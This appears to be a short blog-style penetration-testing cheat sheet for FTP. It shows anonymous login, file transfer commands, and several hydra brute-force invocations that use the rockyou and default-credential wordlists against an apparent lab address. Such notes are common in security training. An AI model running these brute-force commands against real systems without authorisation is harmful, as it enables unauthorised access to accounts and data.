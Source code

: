 ```yaml
---
layout: post
title: TestFtp
date: 2022-05-03 12:00:00 +0100
published: true
categories: [test,test2]
tags: [testTag]
---
```


### Anonymous Access

```
ftp anonymous@<<IP>>
```
### Download file

```
ftp <IP>
PASSIVE
BINARY
get <FILE>
```
### Upload File

```
ftp <IP>
PASSIVE
BINARY
put <FILE>
```
### FTP Brute-Force

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt 192.168.226.47 ftp
```

```
hydra -l joe -P /usr/share/wordlists/rockyou.txt 192.168.226.47 ftp
```

**Default Credentials**
```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.226.47 ftp
```

**Specify Port**
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt <<IP>> -s <<PORT>> ftp
```


